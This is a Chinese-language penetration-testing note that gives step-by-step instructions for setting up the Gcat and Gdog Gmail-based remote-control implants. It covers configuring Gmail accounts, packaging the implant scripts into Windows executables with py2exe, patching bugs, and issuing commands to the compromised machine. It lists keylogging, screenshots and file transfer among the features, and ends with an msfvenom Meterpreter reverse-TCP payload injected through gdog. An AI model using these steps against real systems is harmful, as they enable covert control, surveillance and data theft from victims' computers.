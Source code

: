   #### Gcat
	https://myaccount.google.com/lesssecureapps
	启用设置
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/281.png)

	Gmail启用imap
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/282.png)

	将以下脚本转换为exe
	# setup.py
	from distutils.core import setup
	import py2exe
 
	setup(console=['implant.py'])
	https://github.com/byt3bl33d3r/gcat
	把gcat项目中的implant.py跟以上脚本放在同一目录，修改implant.py中的账户信息
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/283.png)

	>python 1.py py2exe打包
	dist目录下生成implant.exe受控机执行
	同时也要修改项目中gcat.py中的账户信息
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/284.png)

	在受控机执行implant.exe，如果报错修改email模块以下三行
	from email.mime.multipart import MIMEMultipart
	from email.mime.base import MIMEBase
	from email.mime.text import MIMEText
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/285.png)

	执行后，邮箱会收到信息
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/286.png)

	使用gcat.py也可以得到当前会话
	>python gcat.py -list
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/287.png)

	现在可对其进行控制
	>python gcat.py -id [id] -cmd 'net user'
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/288.png)

	生成jobid，指定jobid可查看回显
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/289.png)

	邮箱中也存在
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/290.png)

	当受控机为中文系统时，回显会报错，修改代码
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/291.png)

	其他模块有回显的直接修改后重新py2exe打包即可。
	支持的功能:cmd,upload/download,执行shellcode,键盘记录,截屏等
  #### Gdog
	https://github.com/maldevel/gdog
	功能更多:
	加密传输、地理位置、执行命令、上传下载、shellcode、截图、键盘记录、关闭重启、注销用户、从web下载、访问网站等
	配置流程基本一样，需要打包exe，但是要安装一些模块PyCrypto、WMI、Enum34、Netifaces
	# setup.py
	from distutils.core import setup
	import py2exe
	 
	setup(console=['client.py'])
	client.py在回显处也要添加decode gbk
	执行client.exe报超出索引错误时
	在client.py中搜索字符串for iface in netifaces.interfaces():
	在它下面一行修改为
	if netifaces.ifaddresses(iface)[netifaces.AF_LINK][0]['addr'] == self.MAC and netifaces.AF_INET in netifaces.ifaddresses(iface):
	打包好后执行
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/292.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/293.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/294.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/295.png)

	提取jobid回显出错的话，添加
	reload(sys)
	sys.setdefaultencoding("utf-8")
	执行shellcode
	>msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform Windows EXITFUNC=thread LPORT=4444 LHOST=x.x.x.x -f python
	去除引号加减号，只保留shellcode粘贴到文件shell.txt
	>python gdog.py -id {id} -exec-shellcode /tmp/shell.txt
